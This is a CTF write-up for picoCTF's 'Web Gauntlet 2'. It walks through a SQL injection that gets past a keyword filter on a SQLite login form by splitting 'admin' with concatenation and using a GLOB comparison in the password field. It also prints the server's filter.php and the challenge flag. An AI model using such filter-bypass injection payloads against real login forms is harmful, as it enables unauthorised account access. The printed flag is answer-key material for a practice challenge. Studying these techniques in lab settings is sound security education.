


# Web Gauntlet - 2

link to the chall - [link](https://play.picoctf.org/practice/challenge/174?page=1&search=web)

---


---

Now the part two of the sql challenge.
Here we go.

Given filter is - `filters: or and true false union like = > < ; -- /* */ admin`

---

All of the Hints:
1. `I tried to make it a little bit less contrived since the mini competition.`
2. `Each filter is separated by a space. Spaces are not filtered.`
3. `There is only 1 round this time, when you beat it the flag will be in filter.php.`
4. `There is a length component now.`
5. `sqlite`

---

`SELECT username, password FROM users WHERE username='admi'||'n'' AND password='qwerty'
`

we need to bypass this sql,


They injection should be less than 35 chars

for the username we can easily use `adm'||'in` which would directly provide use with `username = 'admin'`
for password something like `' OR '1'='1' --` would have worked but due to filters, we cannot.

on reading a bit about SQL lite, `hint-5`
I found
```txt
SQLite GLOB operator is used to match only text values against a pattern using wildcards. If the search expression can be matched to the pattern expression, the GLOB operator will return true, which is 1. Unlike LIKE operator, GLOB is case sensitive and it follows syntax of UNIX for specifying THE following wildcards.
```

So, I used it.

```SQL
SELECT username, password FROM users WHERE username='admi'||'n' AND password='' GLOB '?'
```

and 


from /filter.php

```php
<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_9605a246c21764e7691ca04679ad321a}
?>
```

---

and the flag - `picoCTF{0n3_m0r3_t1m3_9605a246c21764e7691ca04679ad321a}`